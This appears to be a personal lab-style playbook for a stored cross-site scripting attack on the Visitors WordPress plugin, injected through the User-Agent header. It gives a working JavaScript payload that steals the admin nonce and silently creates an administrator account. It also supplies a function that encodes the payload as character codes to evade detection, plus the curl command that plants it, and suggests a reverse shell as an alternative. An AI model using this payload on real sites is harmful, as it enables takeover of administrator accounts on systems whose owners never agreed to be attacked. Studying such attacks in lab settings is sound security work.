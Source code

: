 Stored XSS Against WP Playbook:

1. Identify user controlled input that is sent to a DB and later rendered. eg. In the 0.3 version of the Visitors WP plugin X-Forwarded-For & User-Agent headers sent by the client are stored without sanitisation, and later rendered in the browser in a particular admin console. Therefore when any admin visits that page from then on the code we embed in some script tags is executed.
2. Get Burp up and running, make sure intercept is off and the proxy is correctly configured. Look in the proxy section for requests made in the browser. Send one to the repeater (Ctrl+R), in the repeater edit the contents of the User-Agent header to include a reverse shell, alternatively you could do something really whacky:
	
Take this whacko payload:
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Pop it into jscompress.com to compress it, then feed it to the following function in the console to minify it:
```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Finally pass the following to your vulnerable parameter:
`curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<insert encoded payload here>))</script>" --proxy 127.0.0.1:8080`

Make sure intercept is on in Burp, have a look at the payload, then send it on.
Visiting the Visitor Plugin dashboard will trigger the stored XSS payload.